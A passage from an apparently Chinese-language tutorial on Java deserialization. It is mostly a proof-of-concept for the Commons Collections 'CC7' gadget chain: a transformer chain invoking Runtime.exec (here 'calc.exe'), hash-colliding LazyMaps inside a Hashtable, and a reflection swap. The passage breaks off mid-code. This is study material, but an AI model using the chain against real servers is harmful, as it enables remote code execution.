 里传递的实际上就是`HashTable#put`时添加进去的key和value

POC如下

    package org.example;
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.map.LazyMap;
    
    import java.io.*;
    import java.lang.reflect.Field;
    import java.util.HashMap;
    import java.util.Hashtable;
    import java.util.Map;
    
    public class cc7 {
        public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
    
    
            // Reusing transformer chain and LazyMap gadgets from previous payloads
            final String[] execArgs = new String[]{"calc.exe"};
    
            final Transformer transformerChain = new ChainedTransformer(new Transformer[]{});
    
            final Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod",
                            new Class[]{String.class, Class[].class},
                            new Object[]{"getRuntime", new Class[0]}),
                    new InvokerTransformer("invoke",
                            new Class[]{Object.class, Object[].class},
                            new Object[]{null, new Object[0]}),
                    new InvokerTransformer("exec",
                            new Class[]{String.class},
                            execArgs),
                    new ConstantTransformer(1)};
    
            Map innerMap1 = new HashMap();
            Map innerMap2 = new HashMap();
    
            // Creating two LazyMaps with colliding hashes, in order to force element comparison during readObject
            Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
            lazyMap1.put("yy", 1);
    
            Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
            lazyMap2.put("zZ", 1);
    
            // Use the colliding Maps as keys in Hashtable
            Hashtable hashtable = new Hashtable();
            hashtable.put(lazyMap1, 1);
            hashtable.put(lazyMap2, 2);
    
            Field iTransformers = ChainedTransformer.class.getDeclaredField("iTransformers");
            iTransformers.setAccessible(true);
            iTransformers.set(transformerChain,transformers);
    //        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
    